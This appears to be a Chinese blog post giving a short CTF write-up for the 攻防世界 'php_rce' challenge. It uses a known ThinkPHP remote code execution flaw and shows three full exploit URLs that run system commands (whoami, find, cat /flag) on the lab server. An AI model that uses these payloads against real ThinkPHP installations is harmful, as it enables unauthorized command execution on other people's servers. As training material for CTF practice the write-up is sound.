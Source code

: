 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:      php_rce    # 标题 
subtitle:    攻防世界   #副标题
date:       2020-07-06         # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - CTF
  
---
```


访问环境，

![U9xtqx.png](https://s1.ax1x.com/2020/07/06/U9xtqx.png)

百度一下此版本thinkphp存在getshell [漏洞](https://www.cnblogs.com/backlion/p/10106676.html)。

`http://220.249.52.133:43966/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami`尝试发现果然可以。

`http://220.249.52.133:43966/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find / -name flag`发现flag

![U9xjFU.png](https://s1.ax1x.com/2020/07/06/U9xjFU.png)

`http://220.249.52.133:43966/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /flag`找到flag

![U9zpl9.png](https://s1.ax1x.com/2020/07/06/U9zpl9.png)